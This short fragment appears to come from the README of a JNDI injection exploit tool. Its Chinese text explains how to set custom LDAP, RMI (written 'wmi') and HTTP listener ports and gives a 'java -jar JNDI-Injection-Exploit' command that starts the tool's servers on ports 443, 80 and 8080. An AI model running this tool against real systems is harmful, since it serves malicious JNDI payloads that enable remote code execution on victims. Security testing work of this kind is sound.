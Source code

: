允许自定义ldap、wmi、http监听端口
将ldap开在443，将http开在80，将rmi开在8080:
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -l 443 -h 80 -r 8080
